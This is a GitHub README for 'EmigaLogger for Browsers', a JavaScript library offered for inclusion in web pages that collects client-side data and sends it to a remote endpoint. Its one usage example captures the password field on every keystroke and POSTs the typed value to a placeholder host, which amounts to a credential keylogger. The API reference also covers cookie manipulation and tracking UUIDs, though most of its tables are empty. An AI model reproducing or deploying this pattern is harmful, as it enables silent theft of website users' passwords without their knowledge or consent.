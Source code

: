 <p align="center">
  <img src="demo/demo.png" />
</p>
<h1 align="center">EmigaLogger for Browsers</h1>
<div align="center">
EmigaLogger combines several modules to send valuable client-side valuable information to a database
</div>

## Install
```html
<script type="text/javascript" src="cdn-link"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|
#### EmigaLogger.Call(callback)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|
### new EmigaSelector()
#### EmigaSelector().Select(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Submit(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Value(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
#### EmigaSelector().Text(query)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
### new EmigaData()
#### EmigaData().Serialize(form)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|
#### EmigaData().Send(url,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|
### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookies().Set(name,value,options)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|
#### EmigaCookie().Delete(name)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
#### EmigaCookie().Cookie(name,value,days)
| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|
### new EmigaInit(event)